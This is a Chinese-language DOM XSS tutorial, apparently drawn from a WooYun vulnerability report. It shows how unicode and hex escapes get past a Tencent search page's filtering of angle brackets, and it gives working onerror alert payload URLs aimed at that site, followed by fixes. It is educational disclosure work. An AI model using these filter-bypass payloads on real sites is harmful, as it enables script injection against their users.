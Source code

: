 # 8\. Dom Xss 入门 [显式输出]

> 来源：[. Dom Xss 入门 [显式输出]](http://www.wooyun.org/bugs/wooyun-2010-016041)

## 简要描述

反射型 XSS 部分，就到这里了。 接着我们进入 Dom Xss 的部分。 Dom Xss 相比反射型 XSS，脑袋需要多思考一层。 也就是说， 我们关注的不仅是【输出】了什么，还要了解这个页面里，【javascript】拿这个【输出】干了什么。 为了循序渐进，本例讲到的是，【输出】直接在源代码可见的情况。

## 详细说明

1\. 在学习 Dom Xss 之前，先来补习点 html, js 的基础知识。

```
<div id="a">xxx</div>
<script> document.getElementById("a").innerHTML="yyyyyy";
</script> 
```

解释如下：

![image](img/Image_031.jpg)

2\. 进一步，我们的 yyyyyy ，还可以是 HTML 代码。

```
<div id="a">xxx</div>
<script>
document.getElementById("a").innerHTML=" <img src=1> ";
</script> 
```

效果如下：

![image](img/Image_032.jpg)

3\. 再进一步， JS 的字符串中的字符可以写为 unicode 编码。 譬如： `<` 可以表示为 `\u003c` , `>` 可以表示为 `\u003e` 不知道怎么转义的，可以使用 gainover 的工具。 工具地址：[`app.baidu.com/app/enter?appid=280383`](http://app.baidu.com/app/enter?appid=280383)

![image](img/Image_033.jpg)

也就是，我们上面的代码，可以进一步写为。

```
<div id="a">xxx</div>
<script>
document.getElementById("a").innerHTML="\u003cimg src=1\u003e";
</script> 
```

4\. 上面看起来废话好多，但是还是很重要的，这对于后面实例的讲解很重要。

5\. 我们来看看一个具体的实例，地址如下：

```
http://datalib.ent.qq.com/cgi-bin/search?libid=1&keyvalue=aaaaaaa&attr=133&stype=2&tname=star_second.shtml 
```

和前面反射型的一样，我们先看看输出。

![image](img/Image_034.jpg)

相关代码，我也贴出来。

```
<strong id="titleshow">按职业 1 检索：aaaaaaa </strong></div>
<script> if("aaaaaaa"=="")
document.getElementById("titleshow").innerHTML="按地区检索：全部明星"; if("职业 1"=="职业 1")
document.getElementById("titleshow").innerHTML="按职业检索：aaaaaaa";
if("职业 1"=="职业 2") document.getElementById("titleshow").innerHTML="按职业检索：aaaaaaa";
if("职业 1"=="职业 3") document.getElementById("titleshow").innerHTML="按职业检索：aaaaaaa";
</script> 
```

6\. 一共有 6 处，有一处图上没显示,但是也没用处，这里不列出来了，看上面代码中的 5 处。我们已经知道，`<`, `>`, `"` 都被过滤了， 用 前面提到的某些技巧，似乎也无法直接 XSS。那么该怎么办呢？

7\. 在看到本教程的 1，2，3 部分后，聪明的你们不知道会不会想到些什么呢？ 对的，那就是这里出现了 `innerHTML="[输出]"` 的情况。

我们可以看到，上面代码中，实际上只有一句是运行了的。我们重点看它。`if("职业 1"=="职业 1")`

```
document.getElementById("titleshow").innerHTML="按职业检索：[输出]"; 
```

8\. 这里 [输出] 最然过滤了 `<`, `>` ，但是并没有过滤 `\` 。这样一来，大家应该清楚，为什么上面要说到 `<` 可以写为 `\u003c` 了吧。 就 是为了应付这种情况。

9\. 因此，我们可以构造缺陷点的代码如下：

```
if("职业 1"=="职业 1")
document.getElementById("titleshow").innerHTML="按职业检索：\u003cimg src=1 onerror=alert(1)\u003e"; 
```

经过运行后， titleshow 里的 HTML 就会变为 `<img src=1 onerror=alert(1)>` ，从而弹出 1。 对应的，我们的利用代码，可以写为如下，其中空格，我写为了`\u0020`

```
http://datalib.ent.qq.com/cgi-bin/search?libid=1&keyvalue=\u003Cimg\u0020src=1\u0020onerror=alert(1)\u003e&attr= 133&stype=2&tname=star_second.shtml 
```

看看对应的源代码，悲催的事情出现了， \u003c 和 \u003e 竟然被腾讯过滤了。。。

![image](img/Image_035.jpg)

10\. 别灰心，被过滤的原因，是因为 @Jannock 大牛报告过这个漏洞。[跨站脚本-可以让战场离得更远（浅谈腾讯架构缺陷）](http://www.2cto.com/Article/201210/159123.html)

11\. 其实我们还应该注意到上面图片中，过滤的实际上是`\u003c` 和`\u003e`，但是并没有过滤`\u0020`，这说明，腾讯只是针对性的 过滤，并没有过滤 反斜线。

12\. 其实呢，在 JS 字符串里， `<` 不光可以写为 `\u003c`，还可以写为 `\x3c`， `>` 同样可以写为 `\x3e`。我们试试腾讯过滤了这个 没有呢？

```
http://datalib.ent.qq.com/cgi-bin/search?libid=1&keyvalue=\x3Cimg\u0020src=1\u0020onerror=alert(1)\x3e&attr=133& stype=2&tname=star_second.shtml 
```

对应源码，看来没过滤啊～～

![image](img/Image_036.jpg)

哎呀，这次总算弹出来了。见漏洞证明

比如

```
document.getElementById("y").innerHTML="xxxxxxxxxx"; 
document.write("xxxxxxxxxxxx"); 
```

还有一些网站，使用了第三方的 JS 库，譬如 jQuery 时，会有

```
$("#y").html("xxxxxxx"); 
```

14\. 当然最后，还需要提到一些需要注意的地方。

```
aa.innerHTML="xxxxxxxxxxxx"; 
```

这种情况下。xxxxx 只能使用 `<img src=1 onerror=alert(1)>` 这种方式来触发 JS。

而不能以 `<script>alert(1)</script>` 来触发，因为这种压根不会执行`<script>..</script>`之间的内容。 IE 下，可以使用

```
<script defer>alert(1)</script>。 
```

## 修复方案

此案例凸显出开发人员的意识不足问题。指哪修哪，浮于表面的修复没有任何意义。

方法 1\. 输出时，过滤 `\`

方法 2\. `innerHTML=encodeHTML([输出])`